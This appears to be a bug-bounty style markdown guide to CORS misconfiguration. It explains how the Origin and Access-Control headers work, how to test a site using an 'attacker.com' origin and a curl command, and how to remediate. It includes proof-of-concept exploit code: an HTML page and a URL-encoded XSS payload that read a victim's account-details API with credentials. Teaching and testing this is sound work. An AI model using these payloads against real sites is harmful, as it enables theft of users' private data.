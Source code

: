 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

### 🔎 How to check website has CORS enabled or not:
Simply add new request in Header: **Origin: attacker.com** or **Origin: null** 

🏴‍☠️ If you find `Access-Control-Allow-Origin: attacker.com` ***or*** `Access-Control-Allow-Origin: *` ***or*** `Access-Control-Allow-Origin: null` it means domain is ☢️vulnerable.

***Another way to check Insecure CORS:*** `curl www.website.com -H "Origin: http://attacker.com" -I `

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.mywebsite.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.mywebsite.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.mywebsite.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.mywebsite.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.mywebsite.com` It means ***Only***✔️ `www.mywebsite.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`** or **`(null)`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request then you will get error⚠️ page

### 2. Preflighted requests

***Preflight request*** is a CORS request that checks to see IF the CORS protocol is understood and a server is aware using specific methods and headers.

It is OPTIONS method request using three HTTP request headers: `Access-Control-Request-Method`, `Access-Control-Request-Headers` & `Origin` header.

When performing certain types of cross-domain AJAX requests, browser first sends an HTTP request using the OPTIONS method (which is called as "preflight" request) to determine whether they have permission to perform the action or IF the actual request is safe to send. CORS requests are preflighted this way because they may have implications to user data.

**Example:** Browser send request to server and check IF it would allow a DELETE request, before sending a DELETE request, by using a preflight request:
```
OPTIONS /api/account_detaild
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: www.mywebsite.com 
```
IF the server allows this⬆️ request, then it will respond to the preflight request with `Access-Control-Allow-Methods` response header, which lists `DELETE`

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: www.mywebsite.com 
Access-Control-Allow-Methods: POST, PUT, OPTIONS, DELETE
Access-Control-Max-Age: 223000
```
🏴 IF the server does not allow a cross-origin request then you will get error⚠️ to the OPTIONS request and the browser will not make the actual request.

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. Origin with null. [Poorly Implemented -> Exploitable]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

2. Origin with Other Domain. [Poorly Implemented -> Best Case for Attack]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```

3. CORS misconfiguration using wildcards such as (*) [Poorly Implemented but -> Not Exploitable]
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```

## POC - Exploite Code
1. Mentioned below is the exploit code to exploit misconfigured ***Simple requests*** CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace payload <scropt>**alert(document.domain)**</script> 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  
     Example: `Access-Control-Allow-Origin: https://www.mywebsite.com`

* Avoid whitelisting null: `Access-Control-Allow-Origin: null`

* Don't use wildcard selection like: `*.mywebsite.com`

* Always include protocol (https://www) and non-standard ports (8081).

     Example: `Access-Control-Allow-Origin: https://www.mywebsite.com:8081` 

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
